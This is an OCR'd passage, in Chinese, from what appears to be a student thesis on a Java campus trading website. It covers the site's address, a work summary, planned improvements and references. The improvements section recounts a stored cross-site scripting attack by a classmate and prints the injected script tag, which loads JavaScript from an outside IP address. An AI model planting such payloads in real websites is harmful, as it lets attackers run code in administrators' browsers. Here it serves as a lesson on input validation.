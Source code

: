 7.5 网站的访问地址
下面是我发布在阿里云服务器上的网站访问地址， 因为暂时还没有为我的网站购买域名，
所以暂时只能使用 IP 地址进行访问了， 这个地址在 2015 年 9 月之前都有效，之后就需要为阿
里云服务器续费了。
http://115.28.137.186
８．总结与展望
８.１工作总结
这个网站的设计我完成了普通用户的登陆，注册功能，以及管理员的登陆管理功能，二
手物品的发布功能，图书购买功能，以及拦截器的引入，总体上完成我设定的预期目标，在
开发这个网站的过程中，我对于 JAVA 语言的理解，已经数据库的设计使用，服务器的搭建都
提升到了一个新的水平，希望我的网站可以如期的开始使用，为学校同学们提供便利。
８.２不足之处以及可以改进的地方
接下来网站需要进一步改善的地方有：
(1) 丰富系统功能。
1. 在注册用户的时候要有用户名格式的限制，就是说要使用正则表达式添加规则集，对
用户名的格式做一个统一的限制。
2. 对密码格式的要求。
3. 密码的修改功能还没有添加。
4. 用户信息的查看和修改功能没有添加。
5. 在登陆的时候要添加验证码进行验证， 验证码的功能没有添加。
6. 后期可以对二手物品进行一个分类的处理， 现在物品还没有做一个系统的分类处理。
7. 一些界面的美化等等。21
总之目前系统设计的仅仅是一些基本功能， 可以进一步研发具备个性特征的智能化
功效，为全校师生员工供给更多的便当，更好的办事。
(2) 还可以优化程序代码。由于时间的原因，本人所编写的程序代码可能有很多的冗余，
低效率的地方，以后还需要我对代码， 对系统进行优化，以便提高系统的性能。
(3) 网站的安全是一个非常重要的方面，本网站在刚放到服务器上的时候就被我的一个
同学黑掉了，这件事情给了很大的警醒，我打算把以后的很大一部分精力放在网站
的安全维护上面。他黑我的网站是通过我的物品发布功能，上传代码到我的数据库
中：
<script src="http://121.42.155.73/res-images/FSLKFfsklf.js"></script>
这样的一段字符串到我数据中，然后我在管理界面读取这一字段的时候，由于该字
段是可以直接在 HTML 执行的脚本，导致页面执行了他放在另外一台服务器上的脚
本，结果的我的管理界面变成如下图所示的样子了：
8.A 网站被黑之后的样子
这个漏洞是我没有进行字符串的规则校验导致的，我相信我的网站其它的漏洞也不会少，
这方面的欠缺我一定要加紧弥补。22
参考文献：
[1]一林. Java 网络编程实例[M]. 清华大学出版社, 2003.
[2]Edwards J, 爱德华兹, Adams C, et al. JavaScript 精粹[M]. 人民邮电出版社, 2007.
[3]Oracle 数据库基础教程[M]. 人民邮电出版社, 2008.
[4]Cooper J W, 科珀, 宇, 等. Java 设计模式[M]. 中国电力出版社, 2003.
[5]文渊, 惠贞, 俊荣. ASP 与网页数据库设计[M]. 中国铁道出版社, 2001.
[6]Dean D, Felten E W, Wallach D S. Java security: from HotJava to Netscape and beyond[C]. //IEEE
Symposium on Security and Privacy. IEEE, 1996:190 - 200.
[7]Chen F, Roşu G. Java-MOP: A Monitoring Oriented Programming Environment for Java[J]. Lecture Notes
in Computer Science, 2005:546-550.
[8]Havelund K, Pressburger T. Model checking JAVA programs using JAVA PathFinder[J]. International
Journal on Software Tools for Technology Transfer, 2000, 2(4):366-381.
[8]Boyapati C, Rinard M. A Parameterized Type System for Race-Free Java Programs[J]. ACM
CONFERENCE ON OBJECT-ORIENTED PROGRAMMING, SYSTEMS, LANGUAGES AND
APPLICATIONS (OOPSLA), OCTOBER 2001, 2001, 36(11):56-69.
[9]Berg J V D, Jacobs B. The loop Compiler for Java and JML[J]. Lecture Notes in Computer Science,
2000:299--312.
[10]Malabarba S, Pandey R, Gragg J, et al. Runtime Support for Type-Safe Dynamic Java Classes[J].
Fourteenth European Conference on Object-oriented Programming, 2000:337--361.
[11]Chiba S, Nishizawa M. An Easy-to-Use Toolkit for Efficient Java Bytecode Translators[J]. Lecture Notes
in Computer Science, 2003:364--376.
[12]Stoller S D. Model-checking multi-threaded distributed Java programs[J]. International Journal on Software
Tools for Technology Transfer, 2002, 4:71-91. DOI:10.1007/10722468_14.